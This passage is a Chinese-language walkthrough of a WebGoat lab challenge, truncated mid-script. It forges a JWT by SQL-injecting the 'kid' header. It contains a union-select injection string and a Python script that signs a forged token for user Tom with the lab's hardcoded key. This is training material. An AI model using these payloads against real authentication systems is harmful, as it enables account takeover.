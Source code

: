 正常的思路是通过对kid参数进行sql注入，伪造key

```sql
SELECT key FROM jwt_keys WHERE id = '" + kid + "'
```

因为Tom的jwt中kid为`webgoat_key`，说明在jwt_keys表中有一个id的值为`webgoat_key`。

所以可以对kid注入

```sql
kid: y' and 1=2 union select id from jwt_keys where id ='webgoat_key
```

这样sql查询的结果就为`webgoat_key`，即key为`webgoat_key`，但是因为

```java
TextCodec.BASE64.decode(rs.getString(1));
```

无法对`webgoat_key`进行base64解码，就会抛出异常。



用`webgoat_key`作为key

![image-20230608204646391](../../../images/image-20230608204646391.png)

通过源码得到真正的key为

```python
key = base64.b64decode("qwertyqwerty1234")
```

payload

```python
import jwt
import base64
# payload
token_dict = {
    "iat": 1529569536,
    "iss": "WebGoat Token Builder",
    "exp": 2018905304,
    "aud": "webgoat.org",
    "sub": "jerry@webgoat.com",
    "username": "Tom",
    "Email": "jerry@webgoat.com",
    "Role": ["Cat"]
}
key = base64.b64decode("qwertyqwerty1234")
# headers
headers = {
    "typ": "JWT",
    # "kid": "123' and 1=2 union select id FROM jwt_keys WHERE id='webgoat_key",
    "kid": "webgoat_key",
    "alg": "HS256"
}
# 调用jwt库,生成json web token
jwt_token = jwt.encode(payload=token_dict,  # payload, 有效载体
```